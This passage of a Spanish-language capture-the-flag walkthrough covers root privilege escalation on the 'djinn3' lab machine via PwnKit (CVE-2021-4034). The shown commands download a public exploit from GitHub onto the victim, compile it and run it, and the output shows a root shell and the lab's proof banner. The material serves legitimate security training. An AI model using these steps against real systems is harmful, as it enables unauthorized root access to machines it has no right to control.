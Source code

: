 ```console
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

## PwnKit - CVE-2021-4034
Primero, como en la máquina víctima tengo conexión a internet, vamos a descargar el exploit directamente.
```console
(remote) www-data@djinn3:/tmp$ wget https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Ahora podemos extraer el exploit
```console
(remote) www-data@djinn3:/tmp$ unzip main
```

Le damos permiso de ejecución al script que se nos incluye que se va a encargar de compilar el exploit y ejecutarlo.
```console
(remote) www-data@djinn3:/tmp/CVE-2021-4034-main$ chmod +x ./cve-2021-4034.sh
```

Ahora simplemente lo ejecutamos y...
```console
(remote) www-data@djinn3:/tmp/CVE-2021-4034-main$ ./cve-2021-4034.sh
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Podemos ver la flag de `root`
```console
# ./proof.sh
TERM environment variable not set.
    _                        _             _ _ _
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Mon Feb 3 17:14:50 IST 2025
Whoami: root
__________________________________________________________________________

By @0xmzfr

Special thanks to @DCAU7 for his help on Privilege escalation process
And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://blog.mzfr.me/support/)
so I can continue to make these kind of challenges.
```

¡Y ya estaría!

Happy Hacking! 🚀